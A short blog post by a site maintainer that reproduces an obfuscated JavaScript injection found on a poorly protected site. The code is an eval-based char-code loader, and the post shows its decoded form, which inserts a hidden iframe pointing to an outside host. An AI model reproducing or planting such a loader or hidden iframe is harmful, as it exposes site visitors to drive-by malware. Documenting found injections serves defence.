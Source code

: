 ```yaml
---
layout: post
title: 'JavaScript injection '
created: 1334118246
author: igorz
permalink: /javascript-injection
tags:
- JS
- injection
---
```

<p><span class="objectBox objectBox-string " role="presentation">This JavaScript code was injected to the main page of the one of not well protected sites I am happy to maintain:</span><br />
</p>
<p><br />
<i>c=3-1;i=c-2;if(</i></p>
<div dir="ltr"><wbr></wbr><i>window.document)if(parseInt(&quot;</i><wbr></wbr><i>0&quot;+&quot;1&quot;+&quot;2&quot;+&quot;3&quot;)===83)try{Date(</i><wbr></wbr><i>).prototype.q}catch(egewgsd){</i><wbr></wbr><i>f=['-31i-31i65i62i-</i><wbr></wbr><i>8i0i60i71i59i77i69i61i70i76i6i</i><wbr></wbr><i>63i61i76i29i68i61i69i61i70i76i</i><wbr></wbr><i>75i26i81i44i57i63i38i57i69i61i</i><wbr></wbr><i>0i-1i58i71i60i81i-</i><wbr></wbr><i>1i1i51i8i53i1i83i-27i-31i-31i-</i><wbr></wbr><i>31i65i62i74i57i69i61i74i0i1i19</i><wbr></wbr><i>i-27i-31i-31i85i-</i><wbr></wbr><i>8i61i68i75i61i-8i83i-27i-31i-</i><wbr></wbr><i>31i-</i><wbr></wbr><i>31i60i71i59i77i69i61i70i76i6i7</i><wbr></wbr><i>9i74i65i76i61i0i-</i><wbr></wbr><i>6i20i65i62i74i57i69i61i-</i><wbr></wbr><i>8i75i74i59i21i-</i><wbr></wbr><i>1i64i76i76i72i18i7i7i63i65i63i</i><wbr></wbr><i>57i76i61i74i65i57i6i65i70i7i65</i><wbr></wbr><i>i70i6i59i63i65i23i15i-1i-</i><wbr></wbr><i>8i79i65i60i76i64i21i-1i9i8i-</i><wbr></wbr><i>1i-8i64i61i65i63i64i76i21i-</i><wbr></wbr><i>1i9i8i-1i-</i><wbr></wbr><i>8i75i76i81i68i61i21i-</i><wbr></wbr><i>1i78i65i75i65i58i65i68i65i76i8</i><wbr></wbr><i>1i18i64i65i60i60i61i70i19i72i7</i><wbr></wbr><i>1i75i65i76i65i71i70i18i57i58i7</i><wbr></wbr><i>5i71i68i77i76i61i19i68i61i62i7</i><wbr></wbr><i>6i18i8i19i76i71i72i18i8i19i-</i><wbr></wbr><i>1i22i20i7i65i62i74i57i69i61i22</i><wbr></wbr><i>i-6i1i19i-27i-31i-31i85i-27i-</i><wbr></wbr><i>31i-</i><wbr></wbr><i>31i62i77i70i59i76i65i71i70i-</i><wbr></wbr><i>8i65i62i74i57i69i61i74i0i1i83i</i><wbr></wbr><i>-27i-31i-31i-31i78i57i74i-</i><wbr></wbr><i>8i62i-8i21i-</i><wbr></wbr><i>8i60i71i59i77i69i61i70i76i6i59</i><wbr></wbr><i>i74i61i57i76i61i29i68i61i69i61</i><wbr></wbr><i>i70i76i0i-</i><wbr></wbr><i>1i65i62i74i57i69i61i-</i><wbr></wbr><i>1i1i19i62i6i75i61i76i25i76i76i</i><wbr></wbr><i>74i65i58i77i76i61i0i-</i><wbr></wbr><i>1i75i74i59i-1i4i-</i><wbr></wbr><i>1i64i76i76i72i18i7i7i63i65i63i</i><wbr></wbr><i>57i76i61i74i65i57i6i65i70i7i65</i><wbr></wbr><i>i70i6i59i63i65i23i15i-</i><wbr></wbr><i>1i1i19i62i6i75i76i81i68i61i6i7</i><wbr></wbr><i>8i65i75i65i58i65i68i65i76i81i2</i><wbr></wbr><i>1i-1i64i65i60i60i61i70i-</i><wbr></wbr><i>1i19i62i6i75i76i81i68i61i6i72i</i><wbr></wbr><i>71i75i65i76i65i71i70i21i-</i><wbr></wbr><i>1i57i58i75i71i68i77i76i61i-</i><wbr></wbr><i>1i19i62i6i75i76i81i68i61i6i68i</i><wbr></wbr><i>61i62i76i21i-1i8i-</i><wbr></wbr><i>1i19i62i6i75i76i81i68i61i6i76i</i><wbr></wbr><i>71i72i21i-1i8i-</i><wbr></wbr><i>1i19i62i6i75i61i76i25i76i76i74</i><wbr></wbr><i>i65i58i77i76i61i0i-</i><wbr></wbr><i>1i79i65i60i76i64i-1i4i-1i9i8i-</i><wbr></wbr><i>1i1i19i62i6i75i61i76i25i76i76i</i><wbr></wbr><i>74i65i58i77i76i61i0i-</i><wbr></wbr><i>1i64i61i65i63i64i76i-1i4i-</i><wbr></wbr><i>1i9i8i-1i1i19i-27i-31i-31i-</i><wbr></wbr><i>31i60i71i59i77i69i61i70i76i6i6</i><wbr></wbr><i>3i61i76i29i68i61i69i61i70i76i7</i><wbr></wbr><i>5i26i81i44i57i63i38i57i69i61i0</i><wbr></wbr><i>i-1i58i71i60i81i-</i><wbr></wbr><i>1i1i51i8i53i6i57i72i72i61i70i6</i><wbr></wbr><i>0i27i64i65i68i60i0i62i1i19i-</i><wbr></wbr><i>27i-31i-31i85'][0].split('i');</i><wbr></wbr><i>v=&quot;ev&quot;+&quot;a&quot;+&quot;l&quot;;}if(v)e=window[</i><wbr></wbr><i>v];w=f;s=[];r=String;for(;565!</i><wbr></wbr><i>=i;i+=1){j=i;s+=r[&quot;fr&quot;+&quot;omC&quot;+&quot;</i><wbr></wbr><i>harCode&quot;](40+1*w[j]);}<br />
if(f)z=s;e(z);</i></div>
<p>&nbsp;</p>
<p><br />
<span class="objectBox objectBox-string " role="presentation">Last expression&nbsp; </span><i>e(z) </i>evaluates following code:</p>
<p>&nbsp;</p>
<p><br />
<br />
<i><span class="objectBox objectBox-string " role="presentation">if  (document.getElementsByTagName('body')[0]){&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp; &nbsp;&nbsp; iframer();&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">} else {&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; document.write(&quot;&quot;);&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">}&nbsp;</span></i><br />
<br />
<i><span class="objectBox objectBox-string " role="presentation">function iframer(){&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; var f =  document.createElement('iframe');</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.setAttribute('src','http://gigateria.in/in.cgi?7');</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.visibility='hidden';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.position='absolute';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.left='0';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.top='0';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.setAttribute('width','10');</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.setAttribute('height','10');&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; document.getElementsByTagName('body')[0].appendChild(f);&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">}</span></i><br />
</p>
<p><br />
<span class="objectBox objectBox-string " role="presentation">It is amazing,&nbsp;</span><i><span class="objectBox objectBox-string " role="presentation"> </span></i><span class="objectBox objectBox-string " role="presentation">how people create such things. This have to be a special state of mind.</span></p>
